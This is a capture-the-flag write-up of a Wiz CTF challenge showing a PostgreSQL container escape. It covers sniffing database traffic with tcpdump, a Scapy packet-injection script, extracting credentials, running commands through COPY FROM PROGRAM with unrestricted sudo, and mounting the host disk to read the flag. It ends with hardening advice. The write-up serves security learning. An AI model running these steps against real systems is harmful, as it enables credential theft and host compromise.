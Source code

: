 ```yaml
---
layout: post
title: "Wiz CTF July 2025: PostgreSQL Container Escape"
date: 2025-08-10
categories: [ctf, security]
tags: [ctf, security, container-escape, postgresql, docker, pentesting]
excerpt: "Exploiting network traffic capture, PostgreSQL command execution, and container misconfigurations to achieve a complete container escape and access the host filesystem."
---
```


## Challenge Overview

In this Wiz CTF challenge, I achieved a complete container escape by chaining together network traffic analysis, database exploitation, and container misconfigurations. The attack path involved capturing PostgreSQL credentials from unencrypted network traffic, leveraging database privileges for command execution, and ultimately mounting the host filesystem to retrieve the flag.

## Vulnerabilities Exploited

**Container Escape via Database Exploitation** combining:
- Unencrypted PostgreSQL network traffic
- PostgreSQL `COPY TO/FROM PROGRAM` command execution
- Excessive sudo privileges on database user
- Container access to host block devices

## Attack Steps

### 1. Initial Reconnaissance

I started by exploring the container environment to identify potential attack vectors:

```bash
ps aux
netstat -tunap
```

This revealed an active PostgreSQL connection on port 5432 between containers, which became my primary target.

### 2. Network Traffic Capture and Analysis

I captured the database traffic to extract credentials:

```bash
# Start packet capture in background
tcpdump -i eth0 -s 0 -w /tmp/pgdump.pcap port 5432 &
```

Next, I used Scapy to analyze the traffic and attempt a direct exploitation:

```python
from scapy.all import *
import struct

# Capture PostgreSQL server response
pkts = sniff(count=1, filter="tcp and src host 172.19.0.2 and src port 5432", timeout=10)

if pkts:
    server_pkt = pkts[0]
    my_seq = server_pkt[TCP].ack
    payload_len = len(server_pkt[Raw].load) if server_pkt.haslayer(Raw) else 0
    my_ack = server_pkt[TCP].seq + payload_len
    my_sport = server_pkt[TCP].dport

    # Craft PostgreSQL COPY TO PROGRAM packet
    exploit_cmd = 'sudo cat /flag'
    pg_query = f"COPY (SELECT '') TO PROGRAM '{exploit_cmd}'"
    query_payload = pg_query.encode('utf-8')
    query_length = len(query_payload) + 4 + 1
    pg_packet_data = b'Q' + struct.pack('>I', query_length) + query_payload + b'\x00'

    ip = IP(src="172.19.0.3", dst="172.19.0.2")
    tcp = TCP(sport=my_sport, dport=5432, flags="PA", seq=my_seq, ack=my_ack)
    exploit_packet = ip/tcp/pg_packet_data

    send(exploit_packet, verbose=0)
    print("[+] Direct flag read attempt sent!")
```

While the initial packet injection didn't work directly, I extracted the database credentials from the capture:

```bash
strings /tmp/pgdump.pcap
# Found: user, mydatabase, SecretPostgreSQLPassword
```

### 3. Direct PostgreSQL Connection

With the extracted credentials, I connected to the database:

```bash
psql -h 172.19.0.2 -U user -d mydatabase
# Password: SecretPostgreSQLPassword
```

### 4. PostgreSQL Command Execution and Privilege Discovery

I created a temporary table to capture command output:

```sql
CREATE TEMP TABLE out(line text);

-- Check current privileges
COPY out FROM PROGRAM 'id 2>&1';
SELECT * FROM out; TRUNCATE out;
-- Result: uid=999(postgres) gid=999(postgres)

-- Check sudo capabilities
COPY out FROM PROGRAM 'sudo -l 2>&1';
SELECT * FROM out; TRUNCATE out;
-- Result: (ALL) NOPASSWD: ALL
```

This revealed the postgres user had unrestricted sudo access - a critical misconfiguration.

### 5. Container Escape - Device Discovery

I enumerated available storage devices to identify escape paths:

```sql
-- List block devices
COPY out FROM PROGRAM 'sudo fdisk -l 2>&1';
SELECT * FROM out; TRUNCATE out;
-- Found: /dev/vda (squashfs), /dev/vdb

-- Check current mounts
COPY out FROM PROGRAM 'sudo cat /proc/mounts 2>&1';
SELECT * FROM out; TRUNCATE out;

-- Create mount point
COPY out FROM PROGRAM 'sudo mkdir -p /mnt/host 2>&1';
SELECT * FROM out; TRUNCATE out;
```

### 6. Container Escape - Host Filesystem Access

With access to host block devices, I mounted the host filesystem:

```sql
-- Mount the host root filesystem
COPY out FROM PROGRAM 'sudo mount /dev/vda /mnt/host 2>&1';
SELECT * FROM out; TRUNCATE out;

-- Verify mount
COPY out FROM PROGRAM 'sudo ls -la /mnt/host/ 2>&1';
SELECT * FROM out; TRUNCATE out;

-- Read the flag from host
COPY out FROM PROGRAM 'sudo cat /mnt/host/flag 2>&1';
SELECT * FROM out; TRUNCATE out;
```

**Flag:** `CTF{how_turned_guests_to_hosts}`

## Key Takeaways

This challenge demonstrated a sophisticated container escape chain:

1. **Network Traffic Analysis**: Captured and extracted PostgreSQL credentials from unencrypted network traffic
2. **Database Command Execution**: Leveraged PostgreSQL's `COPY TO/FROM PROGRAM` to execute arbitrary commands
3. **Privilege Escalation**: Exploited misconfigured sudo permissions on the postgres user
4. **Container Escape**: Mounted host block devices to access the underlying filesystem

The attack succeeded because:
- Database traffic was unencrypted and contained credentials
- The postgres user had unrestricted sudo access
- The container had access to host block devices (`/dev/vda`)
- The container ran with sufficient privileges to mount filesystems

### Alternative Methods I Attempted

- **Core Pattern Escape**: Tried `/proc/sys/kernel/core_pattern` for code execution
- **Namespace Escape**: Attempted `nsenter` to join host namespaces
- **Process Tree Analysis**: Explored `/proc/1/root` for host filesystem access

This highlights critical security principles:
- **Network Encryption**: Always encrypt database connections, even between containers
- **Least Privilege**: Service accounts should never have unrestricted sudo access
- **Container Hardening**: Isolate containers from host devices using proper security contexts
- **Device Restrictions**: Use `--device` flags carefully and avoid exposing host block devices
- **Security Monitoring**: Log privileged operations and unusual network patterns